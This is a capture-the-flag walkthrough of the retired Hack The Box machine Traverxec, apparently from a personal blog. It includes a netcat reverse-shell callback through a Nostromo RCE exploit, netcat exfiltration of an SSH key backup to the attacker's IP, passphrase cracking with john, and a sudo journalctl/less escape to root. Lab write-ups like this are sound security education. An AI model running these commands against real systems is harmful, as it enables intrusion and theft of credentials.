 ```yaml
---
layout: default
---
```

## Traverxec
###### Retired April 2020
![](https://www.hackthebox.eu/storage/avatars/6ce5fcdd63f07a5ce91d0b8e4579b163.png)

Life is short. [Need to skip to root?](#root)

This was a machine with secrets everywhere. A hidden (,hidden?) directory and a tricky sizing trick with privesc to root.

The IP has been added to my ```/etc/hosts``` file as traverxec.htb. Starting with nmap, I did a quick portscan of all ports and got back hits on 22 and 80. A full scan of those ports revealed:

![](https://yaboygmoney.github.io/htb/images/traverxec/1.png)

The results show that port 80 is running Nostromo version 1.9.6. Some quick recon on the version shows that the particular version provides remote code execution (RCE) capability by exploiting a LFI vulnerability. There are several ways to exploit this vulnerability: manually is pretty easy via web requests, a [python script](https://github.com/sudohyak/exploit/blob/master/CVE-2019-16278/exploit.py) is easier, and [Metasploit has a module](https://www.exploit-db.com/exploits/47573) that's easiest. I opted for the python exploit.

To get a shell, I needed a listener ready:

```bash
nc -nvlp 1234
```

and to make the call using the PoC code:

```bash
python exploit.py traverxec.htb 80 "nc 10.10.14.31 1234"
```

![](https://yaboygmoney.github.io/htb/images/traverxec/shell.png)

The shell is created and I can see that I landed on the machine as www-data.

Initial enumeration didn't show much for any binary/SUID exploitation for privesc, but looking through the Nostromo configuration revealed an .htpasswd file with a hash inside. I cracked it and revealed a password ```Nowonly4me```. It didn't work for SSH as David, and it turns out I didn't really end up needing it at all. 

![](https://yaboygmoney.github.io/htb/images/traverxec/5.png)

The password was for a basic authentication prompt and would have been needed if I did the upcoming steps through a browser. Moving on.

The Nostromo configuration file located at ```/var/nostromo/conf/nhttpd.conf``` provided the necessary information for privesc to david. In the ```#BASIC AUTHENTICATION``` section, we can see that while optional, it is configured. We have the password from the .htpasswd file already. 

![](https://yaboygmoney.github.io/htb/images/traverxec/4.png)

Looking further down the file is the ```HOMEDIRS``` configuration. Reading the [documentation for nhttpd](https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=nhttpd), I learned that it's possible to share home directories for users with a leading ```~``` character followed by their name, for example ```http://traverxec.htb/~david/```.

The configuration also shows that it's possible to provide a ```public_www``` directory. I didn't have permission to list directories from David's home directory, but I could go straight to ```/home/david/public_www``` directory. 

![](https://yaboygmoney.github.io/htb/images/traverxec/6.png)

I shipped the compressed file back to my local machine using a netcat file transfer:

```bash
nc -w 3 10.10.14.31 1235 < backup-ssh-identity-files.tgz # On remote machine
nc -nvlp 1235 > ssh.tgz # On local machine
```

![](https://yaboygmoney.github.io/htb/images/traverxec/7.png)

and decompressed the contents. Inside was David's private SSH key.

![](https://yaboygmoney.github.io/htb/images/traverxec/8.png)

I tried to SSH with just the key, but SSH still wanted a password, and not the password cracked from earlier. To get the password, we can to carve it out of the key file.

I ran the key through ```ssh2john``` and kicked it out to a text file that ```john``` can work with. From there, I can run the text file through ```john```.

```bash
/usr/share/john/ssh2john.py home/david/.ssh/id_rsa > ssh2johnhash.txt
john ssh2johnhash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

After a few seconds the hash is cracked and I'm given the password ```hunter```.

![](https://yaboygmoney.github.io/htb/images/traverxec/9.png)

Now I can SSH using the same command as earlier, but provide the password this time and I'm in.

```bash
ssh -i home/david/.ssh/id_rsa david@traverxec.htb
```

![](https://yaboygmoney.github.io/htb/images/traverxec/10.png)

<a name="root">Now for root.</a>

In david's home directory, there's a ```bin``` directory. One of the files called ```server-stats.sh``` ends with the line ```/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat```. This is our way in. 

![](https://yaboygmoney.github.io/htb/images/traverxec/11.png)

Here's the breakdown:
1. Since David owns this script, we can assume that every line in the script is able to be executed manually outside of the script.
2. The last line is run with root permissions.
3. The ```journalctl``` binary that is run as root actually runs on top of the ```less``` binary. It's possible to drop into a shell from within ```less``` (see [GTFObins](https://gtfobins.github.io/gtfobins/journalctl/#sudo)).

So to get a root shell, all I have to do is run

```bash
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```

But there's a very creative catch. The command prompt MUST be small enough that the entire script cannot be displayed on the screen to actually force the ```less``` binary to be necessary. So the above command should be ran in a tiny command prompt window.

Now I'm in a ```less``` environment. From here just type

```bash
!/bin/bash
```

![](https://yaboygmoney.github.io/htb/images/traverxec/12.png)

and a shell is executed under the context of root.

Thanks for reading.

#### Keep trying
